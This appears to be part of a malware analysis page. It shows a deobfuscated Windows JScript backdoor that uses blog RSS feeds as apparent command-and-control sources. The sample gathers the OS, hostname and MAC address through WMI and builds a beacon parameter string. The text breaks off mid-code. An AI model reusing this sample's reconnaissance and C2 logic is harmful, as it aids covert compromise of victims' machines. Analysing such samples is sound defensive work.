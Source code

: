 Deobfuscated
```
var sXmlUrl =
  "http://kumardeep.sosblogs.com/The-first-blog-b1/RSS-b1-rss2-posts.htm;http://blogs.rediff.com/anilchopra/feed/;http://www.blogster.com/kapoorsunil09/profile/rss";
var sOwner = "XDD";
var MAIN = function() {
  $ = this;
  $.key = "W";
  $.sFeedUrl = sXmlUrl;
  $.sOwner = sOwner;
  $.sXmlUrl = "";
  $.oHttp = null;
  $.oShell = null;
  $.oStream = null;
  $.sHostName = null;
  $.sOSType = null;
  $.sMacAddress = null;
  $.sURLParam = null;
  $.version = "2.0.0";
  $.runtime = 5000;
  $.oWMI = null;
  $._x = ActiveXObject;
};
MAIN.prototype = {
  InitObjects: function() {
    $.oWMI = GetObject(
      "winmgmts:{impersonationLevel=impersonate}!\\\\.\\root\\cimv2"
    );
    $.oShell = new $._x("WScript.Shell");
    $.oStream = new $._x("ADODB.Stream");
    $.GetOSInfo();
    $.GetMacAddress();
    $.GenerateUrlParam();
  },
  WMI: function(sql) {
    return $.oWMI.ExecQuery(sql);
  },
  GetOSInfo: function() {
    var e = new Enumerator($.WMI("Select * from Win32_OperatingSystem"));
    if (!e.atEnd()) {
      var item = e.item();
      $.sOSType = item.Caption + item.ServicePackMajorVersion;
      $.sHostName = item.CSName;
    }
  },
  GetMacAddress: function() {
    var e = new Enumerator(
      $.WMI(
        'Select * from Win32_NetworkAdapter where PNPDeviceID like "%PCI%" and NetConnectionStatus=2'
      )
    );
    if (!e.atEnd()) {
      $.sMacAddress = e.item().MACAddress;
    }
  },
  GenerateUrlParam: function() {
    var time = new Date();
    $.sURLParam =
      "cstype=server&authname=servername&authpass=serverpass&hostname=" +
      $.sHostName +
      "&ostype=" +
      $.sOSType +
```